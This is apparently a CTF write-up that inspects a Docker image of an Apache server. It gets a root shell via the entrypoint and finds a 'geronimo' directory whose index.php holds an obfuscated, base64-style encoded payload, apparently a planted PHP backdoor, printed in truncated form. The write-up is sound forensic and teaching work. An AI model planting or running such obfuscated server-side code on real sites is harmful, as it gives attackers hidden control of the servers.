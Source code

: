 As we can see it's an apache server, we have to change the docker entrypoint in order to get a shell to interact with the local system:
```
┌──(kali㉿kali)-[~/ciberseg-uah-ctf-web]
└─$ docker run -it --entrypoint /bin/bash ciberseg-ctf-web:1.0.0
root@2d47aad65c03:/var/www/html#
```

Once we have a shell we should check /var/www (web files) and /etc/apache2 (apache2 configuration files) directories. In /var/www we have a directory named geronimo, lets check:

```
root@2d47aad65c03:/var/www/html# cd ..
root@2d47aad65c03:/var/www# ls
geronimo  html
root@2d47aad65c03:/var/www# cat geronimo/index.php 
<?php

@error_reporting(0);
@set_time_limit(0); 


$code = "7T35W+u2sr+/73v/g+vLLaGErGwhkJ4QEghbIAkJcE4/rmM7sYk3bGc9r//702ix5cRhOT1t770
t7QFbGo2k0WhmJI3G//s/ej+he57qJ9aeTqvtz+uKsf7LhvDjjwKfIPxwJIjixsZXYa2vG6pwJHC
ZRZI4R6mf4OFpoPpPsm35quV7CZy3URQ0VVJUNyFWSMaWP3PUA0FyHEOXJV+3rbQt+6q/5fmuKpl
iTAlDtQa+diCIKQSDXgjq+UYMqKJ7ju3pgBbV4fuSrJkovShACUsy1aMvopjqSR5+oW1MiV/EIlS
syppN+4Repjoq96ugGp66TKvBXHeW6EUSX6EZAeDoNpirlmwramIlAWM62QYK8gScbgHiL9afQ7z
UYP4a/RZpp5sDRDhEnU9270k2VMlKoKJrCqKGKQ10uWfbJoOdIUigVkhDXBol6RYkfkIE01Ep1dP
nqEFKaq0P8OrUR5nq1DGAtGv9pJgSw3T481m2RxZqEnrc2MoihJ/i2VRMQU2fRVM3VRHaEsIh6qh
bMFiubRwIzqiHhkPkIapTR3dVD5Aokq8mRFdMmkPUXjWRScJ/WfRfLpPPbGy8gtiUpluog0diKrG
b+Qn9n9v+aQ8XQNNFAVoH/WYUXxurLuqnmE1lsiLqtmf3/YnkAicieqnWOCG2qs1OtfnUatTa3XK
zCu3W+0Lik27pwIQJ0ZP66pOJyCduCLYrIN7xbcOeoAbGwmwIR6hCG3Egqg4lQyqqrt28qxbxDIo


...
```

In /etc/apache2:
```
root@2d47aad65c03:/var/www# cd /etc/apache2/
root@2d47aad65c03:/etc/apache2# ls
apache2.conf  conf-available  conf-enabled  envvars  magic  mods-available  mods-enabled  ports.conf  sites-available  sites-enabled
root@2d47aad65c03:/etc/apache2# cat apache2.conf 
# This is the main Apache server configuration file.  It contains the
# configuration directives that give the server its instructions.
# See http://httpd.apache.org/docs/2.4/ for detailed information about
# the directives and /usr/share/doc/apache2/README.Debian about Debian specific
# hints.
#
#
# Summary of how the Apache 2 configuration works in Debian:
# The Apache 2 web server configuration in Debian is quite different to
# upstream's suggested way to configure the web server. This is because Debian's
# default Apache2 installation attempts to make adding and removing modules,
# virtual hosts, and extra configuration directives as flexible as possible, in
# order to make automating the changes and administering the server as easy as
# possible.

# It is split into several files forming the configuration hierarchy outlined
# below, all located in the /etc/apache2/ directory:
#
#       /etc/apache2/
#       |-- apache2.conf
#       |       `--  ports.conf
#       |-- mods-enabled
```
